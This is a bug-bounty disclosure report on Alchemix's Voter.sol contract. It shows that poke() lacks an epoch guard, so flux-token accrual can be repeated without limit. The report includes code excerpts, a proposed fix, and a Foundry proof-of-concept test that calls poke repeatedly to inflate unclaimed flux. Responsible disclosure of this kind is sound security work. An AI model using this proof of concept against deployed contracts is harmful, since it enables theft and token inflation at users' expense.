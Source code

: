 
# Lack of Access control in poke() function allows  in unlimited minting of flux token

Submitted on Fri May 17 2024 11:45:04 GMT-0400 (Atlantic Standard Time) by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31375

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- A user can mint unlimited flux token breaking the invariant `A user should never be able to claim more rewards than they have earned`

## Description
## Brief/Intro
Lack of Access control in `poke()` function allows unlimited accrual of flux token thus breaking assumed invariants set by the team. 

## Vulnerability Details
In `Voter.sol` users can perform action like vote, reset or poke , when these actions are performed an external call to `FluxToken.sol` `accrueFlux` function is called which accrue unclaimed flux for a given veALCX . While `vote` and `reset` function had modifier called `onlyNewEpoch`  which prevented calling `accrueFlux` function multiple times in an epoch. 
`poke` function was also calling `accrueFlux` function but in this function no access control modifier `onlyNewEpoch` was  used which allowed this function to be called multiple time in an epoch.


In `Voter.sol`
```solidity
function poke(uint256 _tokenId) public {
    //...//
        _vote(_tokenId, _poolVote, _weights, _boost); //internal _vote is called 
    }
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
      //...
        IFluxToken(FLUX).accrueFlux(_tokenId);  // flux is accrued here
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
}
```

## Impact Details
* This vulnerability is breaking a  invariant set by the team , as a user can accrue unlimited flux, they can use the accrued  flux to boost their voting power each epoch thus getting more voting power than they should have.
> A user should never be able to vote with more power than they have 
* A user  can mint unlimited flux token and can unlock their escrowed position at any time they want even before then are supposed to unlock or can sell those flux token in the marketplace
* Due to unlimited supply of flux token the value of flux token will drop significantly.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195-211
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L423

## Possible fix
```diff
+ bool public hasPoked; // create a state variable
function poke(uint256 _tokenId) public {
+      hasPoked = true;
        uint256 _boost = 0;

        //...//

        _vote(_tokenId, _poolVote, _weights, _boost);
+      hasPoked = false;
    }
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        //.../
+        if (!hasPoked) { // when poke is called flux accrual will not happen.
+           IFluxToken(FLUX).accrueFlux(_tokenId); 
+        }
        //...//
}
```

        
## Proof of concept
## Proof of Concept
* Add this function to `src/test/Voting.t.sol` and run the test 
`forge test --mt testPocAccrueFluxMultipleTimes  --rpc-url $RPC_URL -vvvv`
```
function testPocAccrueFluxMultipleTimes() public {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
        address[] memory pools = new address[](1);
        pools[0] = alETHPool;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.startPrank(admin);
        voter.vote(tokenId, pools, weights, 0);
        voter.poke(tokenId); // 1st time
        console.log("unclaimed flux balance",flux.getUnclaimedFlux(tokenId));
        voter.poke(tokenId); // 2nd time
        uint256 unclaimedFlux_1 = flux.getUnclaimedFlux(tokenId);
        voter.poke(tokenId); // 3rd time
        uint256 unclaimedFlux_2 = flux.getUnclaimedFlux(tokenId);
        console.log("increased flux balance",flux.getUnclaimedFlux(tokenId));
        assertGt(unclaimedFlux_2,unclaimedFlux_1);
    }
```